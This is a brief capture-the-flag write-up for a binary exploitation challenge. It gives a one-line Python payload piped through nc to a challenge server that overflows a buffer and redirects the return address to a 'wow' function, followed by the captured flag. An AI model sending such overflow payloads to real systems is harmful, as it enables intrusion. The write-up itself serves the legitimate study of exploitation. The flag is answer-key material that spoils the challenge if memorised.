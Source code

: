 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
Just overwrite the address of `wow` function to the return address.  
```bash
python2.7 -c "import pwn; print 'A'*28 + pwn.p32(0xcafe) + '\n' + 'A'*136 + pwn.p32(0x00000000004012ec)" | nc 194.5.207.56 7010
```  
The flag:  
```
TMUCTF{w0w!_y0u_c0uld_f1nd_7h3_w0w!}
```

